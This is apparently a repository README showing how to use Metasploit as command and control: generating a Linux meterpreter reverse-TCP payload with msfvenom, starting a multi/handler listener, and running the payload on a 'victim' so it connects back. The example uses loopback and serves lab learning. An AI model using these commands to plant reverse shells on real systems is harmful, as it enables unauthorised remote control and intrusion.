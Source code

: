 # Metasploit as C2 

### Installation 

Goto [Metasploit](https://www.metasploit.com/download) Website and choose the Platform you want to download.
Currently it is availible for, <br> 
* Windows
* MacOS
* Linux
---
### Creating the payload

Once you have installed metasploit framework, we can create the payload for the Victim. 

![Creating the payload](Creating_the_payload.png)

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 -f elf -o output`
> **Command Description** <br>
> msfvenom - is a combination of msfpayload and msfencode, single tool to create and encode payloads. <br>

>-p  - Select the payload to use. In this case we chose x86 Linux and Reverse TCP as the connection type. There are multiple types of payloads in msfvenom, for example,
> * Reverse TCP - connects back to the attacker once executed.
> * Bind TCP - listens to the TCP connection
> * Reverse HTTP - Insteasd of using TCP, tunnel the traffic through HTTP
> * for more payloads `msfvenom -l payloads` in the command line 
<br>

<br> 

>-LHOST - Attacker IP to connect back. In this case its the localhost IP. 

> -f - type of file format, this example is for Executable and linking format(ELF). There are multiple formats to export from scripts to multiple executables. for more `msfvenom --list formats` <br> ![List of Formats to Export](Formats_to_export.png)

> -o - output file name 

---
### Creating a lister on Attacker Machine

Turn on the Metaspoilt Framework. <br>
`msfconsole`<br>

Then we create a listener for our reverse TCP payload.For that we use `use exploit/multi/handler` in msfconsole. 
![Use exploit](use_exploit_multi_handler.png)

Then we have to configure what kind of payload we have created for the Victim Machine. <br>
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`

Then set LHOST as 127.0.0.1, our  loopback address by <br>
`set LHOST 127.0.0.1`
<br>


Then we can execute the listener by running the command `exploit` or `run`.

<br> 

![Run the Exploit](run_exploit.png)

---
### Preparing and Executing the payload in the Victim Machine

> **Note** : We target a linux x86 machine in this example.

First you have to make it a executable. Locate the file in the victims machine.<br>

`chmod +x output`

Then we can run the payload by <br>

`./output`


---

### Connection

The payload will automatically will connect back to the attacker. ![The Connection](connection.png)


